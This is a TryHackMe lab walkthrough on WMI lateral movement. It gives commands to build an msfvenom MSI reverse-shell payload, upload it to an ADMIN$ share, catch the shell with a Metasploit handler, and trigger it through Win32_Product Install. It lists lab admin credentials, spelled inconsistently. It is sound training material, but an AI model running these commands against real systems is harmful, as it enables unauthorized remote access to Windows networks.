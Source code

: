 # WMI Walkthrough

- Connect to THMJMP2 using credentials from http://distributor.za.tryhackme.com/creds  
`ssh za\\User1@thmjmp2.za.tryhackme.com`  

Captured admin credentials to be used (provided by THM):
- ZA.TRYHACKME.COM\t1_korine.waters
- Korine.1194

Create MSI payload using msfvenom:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi`  

Copy Payload using SMB:
`smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994` 

- Copy payload to ADMIN$ share
- Available at C:\Windows\ on the server

Start handler to receive reverse shell from Metasploit:  
`msf6 exploit(multi/handler) > set LHOST lateralmovement`  
`msf6 exploit(multi/handler) > set LPORT 4445`  
`msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp`  
`msf6 exploit(multi/handler) > exploit`

Start WMI session against THMIIS from a PowerShell console on THMJMP2:  
`PS C:\> $username = 't1_corine.waters';`  
`PS C:\> $password = 'Korine.1994';`
`PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;`  
`PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;`  
`PS C:\> $Opt = New-CimSessionOption -Protocol DCOM`  
`PS C:\> $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop`

Invoke the install method from Win32_Product to trigger payload:  
`Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}`